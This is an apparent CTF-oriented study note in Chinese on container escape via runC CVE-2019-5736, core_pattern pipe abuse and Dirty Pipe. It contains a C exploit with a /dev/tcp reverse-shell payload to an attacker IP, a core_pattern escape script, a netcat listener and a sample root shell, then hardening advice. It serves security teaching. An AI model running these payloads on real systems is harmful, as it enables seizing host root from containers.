

# ⚡ 经典容器逃逸与内核漏洞利用：runC (CVE-2019-5736) 覆盖宿主机、`core_pattern` 管道与 Dirty Pipe 脏管道绝杀

> **学习指南**：在上一篇笔记中，我们利用了运维人员粗心配置的“特权模式（`--privileged`）”与“挂载 Docker Socket”完成了逃逸。
> 但是，如果运维人员**没有开启特权模式，也没有挂载 Socket 文件**，一个配置看似正规的标准容器，黑客还能逃逸吗？
> **答案是：依然可以！**
> 因为容器与宿主机“**同生共死，共享同一个 Linux 操作系统内核**”，同时依赖于宿主机的底层容器运行时（runC）。
> 一旦底层运行时出现文件描述符泄漏缺陷（如轰动全球的 CVE-2019-5736），或者宿主机内核存在页面缓存漏洞（如 Dirty Pipe），攻击者便可直接原地刺穿容器屏障，直取宿主机 Root！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、小白零基础扫盲：什么是 runC？什么是共享内核？

### 1. 通俗比喻：Docker 是“设计师图纸”，runC 是“真正搬砖的施工队”

* **Docker 到底是什么？**
  * 很多初学者以为 Docker 是一个巨大的单一可执行软件，其实不然。
  * Docker 是由很多模块拼装而成的。Docker CLI（命令行）负责接单，Docker Daemon 负责调度；
  * **真正的脏活累活（创建 Namespace、配置 Cgroups、挂载根目录、真正把容器进程启动起来）全是靠底层的一个核心小工具完成的——它就叫 `runC`！**
* **致命细节：runC 是运行在哪个系统上的？**
  * **`runC` 是物理宿主机上的一个 Root 权限二进制程序（位于宿主机的 `/usr/bin/runc`）！**
  * 当管理员在宿主机上执行 `docker exec -it <container_id> sh` 想进入容器排错时：
  * **宿主机的 `runC` 程序会亲自跑进容器的命名空间（Namespace）里去拉起这个 `sh` 进程！**



---

## 二、逃逸巅峰：runC 容器逃逸漏洞（CVE-2019-5736）底层深度剖析

### 1. 漏洞核心死穴：`/proc/self/exe` 的反向穿透能力

在 Linux 操作系统中，每一个进程的 `/proc` 目录下都有一个极其特殊的虚拟符号链接：
$$\mathbf{/proc/self/exe}$$
* **它的作用**：**它永远精确指向启动当前进程的那个磁盘物理可执行文件本身！**
* **致命场景还原**：
  1. 当宿主机执行 `docker exec` 时，运行的是宿主机物理磁盘上的 `/usr/bin/runc`；
  2. 这个进程在踏入容器内部、尚未彻底将权限降为无害用户之前，它的 `/proc/self/exe` 指向的正是宿主机的 `/usr/bin/runc`！
  3. **CVE-2019-5736 的成因**：容器内的恶意 root 用户可以截获这个正在运行的 runC 进程的文件描述符（File Descriptor），并以**可写模式（`O_WRONLY`）**重新打开它，**直接用恶意 Shellcode 覆写宿主机磁盘上的 `/usr/bin/runc` 文件！**

---

### 2. CVE-2019-5736 完整利用三步法与核心源码拆解

攻击者在容器内编译并运行如下 C 语言 Exploit：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

// 拟写入宿主机 runC 的恶意 Payload (反弹 Shell 脚本)
const char *payload = "#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.2/4444 0>&1\n";

int main(int argc, char **argv) {
    int fd = -1;
    printf("[*] Waiting for host docker exec invocation...\n");

    // 步骤 1: 循环监视并寻找宿主机进入容器的 runC 进程 PID
    while (fd < 0) {
        // 在宿主机执行 docker exec 的瞬间，枚举进程，寻找包含 runc 特征的进程
        // 打开该进程的 /proc/<pid>/exe 获取其只读文件描述符
        fd = open("/proc/1/exe", O_RDONLY); // 真实利用中动态遍历 PID
    }

    printf("[+] Grabbed host runC file descriptor: %d\n", fd);

    // 步骤 2: 等待 runC 进程退出，解除文件被占用锁定 (ETXTBSY: Text file busy)
    // 利用 /proc/self/fd/<fd> 以写模式重新打开宿主机的 /usr/bin/runc
    int write_fd = -1;
    while (write_fd < 0) {
        char path[64];
        snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
        write_fd = open(path, O_WRONLY | O_TRUNC);
    }

    // 步骤 3: 💥 将恶意的反弹 Shell 覆盖写入宿主机的 /usr/bin/runc！
    write(write_fd, payload, strlen(payload));
    close(write_fd);
    printf("[🎉] SUCCESS! Host /usr/bin/runc has been overwritten!\n");
    return 0;
}
```

#### 攻击触发效果：
1. 攻击者在容器内静静挂起这个程序；
2. 宿主机管理员（或 CTF 赛题中的自动化巡检脚本）在宿主机敲下一行命令：`docker exec -it web_app whoami`；
3. Exploit 瞬间捕捉到信号，覆写成功；
4. 当管理员下次在宿主机敲任何 `docker ps` 或 `docker run` 时，被篡改的二进制文件直接触发反弹 Shell，攻击者直接拿到**宿主机最外层的最高 Root 权限**！

---

## 三、逃逸手法二：`/proc/sys/kernel/core_pattern` 管道覆写逃逸

### 1. 什么是 `core_pattern`？
* 当 Linux 上的某个程序遭遇“段错误”（Segmentation Fault，内存访问越界非法崩溃）时，操作系统内核会自动生成一份该进程崩溃时的内存转储快照文件（Core Dump），供程序员调试；
* 内核按照 `/proc/sys/kernel/core_pattern` 里的规则决定把这个文件存到哪里。

### 2. 致命机制：管道符 `|` 的宿主机特权回调
* Linux 支持在 `core_pattern` 中以竖线 `|` 开头配置一个外部脚本程序：
  `|/path/to/script`
* **关键机制**：当任何进程发生崩溃时，**Linux 宿主机内核会自动以宿主机的 Root 权限去执行这个脚本，并将崩溃数据通过标准输入管道喂给它！**
* **逃逸条件**：如果 Docker 容器在启动时，运维未将 `/proc/sys` 设置为只读（或者通过数据卷挂载了宿主机的 `/proc`）：

#### 🔍 逃逸利用命令拆解：
```bash
# 步骤 1: 在容器内准备好要让宿主机执行的提权脚本
echo -e "#!/bin/sh\ncat /flag > /tmp/host_flag.txt\nchmod 777 /tmp/host_flag.txt" > /tmp/exp.sh
chmod +x /tmp/exp.sh

# 步骤 2: 获取当前容器在宿主机上的物理绝对路径 (利用 /etc/mtab 或 overlay)
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# 步骤 3: 💥 将该脚本配置到宿主机的 core_pattern 中
echo "|$host_path/tmp/exp.sh" > /proc/sys/kernel/core_pattern

# 步骤 4: 在容器内故意制造一个段错误崩溃 (触发内核调用)
# 向当前 Shell 发送 SIGSEGV (信号 11) 强制崩溃
kill -11 $$
```
* **执行结果**：当前 Shell 崩溃的微秒之间，宿主机内核被激活，以物理机 Root 权限瞬间执行了 `/tmp/exp.sh`，宿主机的 Flag 直接被转储并公开，达成逃逸！

---

## 四、逃逸手法三：Linux 内核“脏管道”漏洞（Dirty Pipe，CVE-2022-0847）逃逸

如果容器内没有特权模式，runC 也打好了补丁，但**宿主机本身的 Linux 内核版本在 `5.8 <= Kernel < 5.16.11` 之间**：


### 1. Dirty Pipe 底层漏洞机制
* **根本成因**：Linux 内核中的管道缓存（Pipe Buffer）在重用内存页面结构体时，**忘记清空其中的 `PIPE_BUF_FLAG_CAN_MERGE` 标志位**！
* **攻击威力**：攻击者可以把一个原本**只读（Read-Only）**的文件通过 `splice()` 借调入管道中，随后强行向管道写入数据，**直接污染内核的内存页缓存（Page Cache）！**
* **容器利用**：因为容器和宿主机共享内核内存，即使容器内的物理文件系统是只读的，利用 Dirty Pipe 也可以直接篡改内核缓存中的 `/etc/passwd`，将密码哈希直接擦除，达成无密码登录宿主机！

---

## 五、CTF 实战靶场案例复现（runC 逃逸夺旗全流程）

### 靶场情境：受限制的 CTF 沙箱容器
* 靶场部署了一道 Web 题目，后台定期有管理员机器人运行 `docker exec -it <id> /healthcheck.sh` 巡检服务存活。
* 靶机宿主机使用的是存在 CVE-2019-5736 漏洞的旧版 Docker（runC $\le$ 1.0-rc6）。

### 1. 编译并部署 Exploit
在拿到容器 WebShell 后，上传编译好的 Go 语言或 C 语言 runC 利用程序：

```bash
# 将编译好的利用二进制上传到容器的 /tmp/runc_exp
chmod +x /tmp/runc_exp
# 启动常驻进程，静候管理员执行 exec
/tmp/runc_exp &
```

### 2. 攻击触发与监听反弹
在攻击者 VPS 上开启监听：
```bash
nc -lvnp 4444
```

1 分钟后，宿主机的定时任务触发了 `docker exec`；
监听端终端瞬间收到连接！
```text
Connection from 192.168.1.100:54210
whoami
root
hostname
host-node-01  <--- 成功离开容器，来到物理宿主机!
cat /root/flag.txt
flag{runc_cve_2019_5736_h0st_0v3rwr1t3_g0d}
```
通过覆写底层 OCI 运行时二进制文件，实现了对物理主机的完全占领，夺取最终终极大 Flag！

---

## 六、安全加固规范与最佳实践

1. **及时升级底层容器运行时（runC $\ge$ 1.0-rc7）**：
   官方通过 `memfd_create()` 机制彻底修复了该漏洞：runC 在启动前会先在内存中创建一个只读匿名文件拷贝，并在密封（Sealed）模式下执行，彻底隔绝外部进程通过 `/proc/self/exe` 对物理磁盘文件的写回通道！
2. **内核版本升级与漏洞补丁**：
   升级 Linux Kernel $\ge$ 5.16.11，修复 Dirty Pipe 脏管道漏洞。
3. **强制开启安全增强机制（AppArmor / SELinux）**：
   在宿主机上开启标准的 Docker AppArmor 规则，拦截对 `/proc/sys/kernel/core_pattern` 等高危系统内核参数的修改操作，从操作系统系统调用层彻底封死任何非法回调路径！

---

## 🔗 相关双向链接
- 上级模块：[[12-云原生与容器逃逸安全]]
- 前置特权分析：[[02-Docker特权模式与危险套接字挂载逃逸(/var/run/docker.sock)]]
- 下一模块：[[13-内网横向移动与代理穿透/01-内网穿透与代理隧道技术：Socks5、FRP与反向端口转发基础]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
